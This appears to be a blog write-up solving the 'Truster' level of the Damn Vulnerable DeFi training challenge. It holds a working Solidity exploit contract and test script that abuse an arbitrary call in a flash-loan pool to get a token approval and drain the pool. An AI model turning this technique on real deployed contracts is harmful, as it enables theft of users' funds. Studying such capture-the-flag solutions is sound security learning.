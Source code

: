 ```yaml
---
layout: post
date:   2022-08-08 12:59:00 -0500
categories: DeFi flashloan
title: Damn Vulnerable DeFi - Truster
---
```


## Analysis

flashLoan is a non re-entrant function. The function allows an arbitrary call. This may imply the function may be tricked into doing something interesting. The goal of the challenge is to drain the pool of tokens. Flash loans can exist for ether or tokens. 

Research questions:
Q: What are the invariant that must hold for funds/tokens to leave a contract?
A: function calls transfer and transferFrom() allow the movement of ERC20 tokens. 

The flashloan function sends the tokens to a borrower account and calls an arbitrary target contract. This means, the borrower account and target function may be different. Are there any implications if they are different. 

## Problem

Arbitrary call target during flash loan.

## Exploit

```js

// truster.challenge.js

it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE  */
    // deploy the contract
    const ExploitReceiver = await ethers.getContractFactory('ExploitReceiver', attacker);
    this.attackerContract = await ExploitReceiver.deploy(this.token.address, this.pool.address);

    //Attack
    console.log(
        'Receiver balance before attacking: ',
        String(await this.token.balanceOf(attacker.address))
    );
    console.log(
        "Exploit balance before attacking: ",
        String(await this.token.balanceOf(this.attackerContract.address))
    );

    await this.attackerContract.connect(attacker);
    await this.attackerContract.exploit(attacker.address);

    console.log(
        "Receiver balance after attacking: ",
        String(await this.token.balanceOf(attacker.address))
    );
    console.log(
        "Exploit balance after attacking: ",
        String(await this.token.balanceOf(this.attackerContract.address))
    );
});

```
ExploitReceiver smart contract

```sol
// SPDX-License-Identifier: MIT
// ExploitReceiver.sol

pragma solidity ^0.8.0;

import "../truster/TrusterLenderPool.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";


contract ExploitReceiver {
    using Address for address;

    // Receiver needs to know the pool it is receiving from
    TrusterLenderPool private immutable pool;
    IERC20 private immutable dvt;

    // attacker
    address private immutable owner;

    constructor(address payable dvtAddress, address payable poolAddress) {
        pool = TrusterLenderPool(poolAddress);
        dvt = IERC20(dvtAddress);
        owner = msg.sender;
    }

    // arbitrary function
    //https://swcregistry.io/docs/SWC-104
    function exploit(address attacker) public payable {

        require(attacker == owner);

        // prepare a call for the approve function
        // nospace in parameter stuff for signature
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            // this contract address is related to the attacker/owner
            address(this),
            dvt.balanceOf(address(pool)));

        // interact with the pool, calling the flashLoan will cause
        // the dvtToken approve to be called for our contract address
        pool.flashLoan(0, owner, address(dvt), data);

        // initiate the transfer from pool to attacker address
        dvt.transferFrom(address(pool), attacker, dvt.balanceOf(address(pool)));

    }
}
```

## Explanation

```
Objective
1. Drain the tokens TrusterLenderPool.sol contract
  a. Call an arbitrary function in an arbitrary receiver contract
  b. Arbitrary function will be the tokens approve function
  c. So that we can transfer out of the pool outside the flashLoan functionality
```

Resources
1. https://medium.com/@juanxaviervalverde/damn-vulnerable-defi-truster-level-3-solution-3a08d34ad07b

2. https://consensys.github.io/smart-contract-best-practices/development-recommendations/general/external-calls/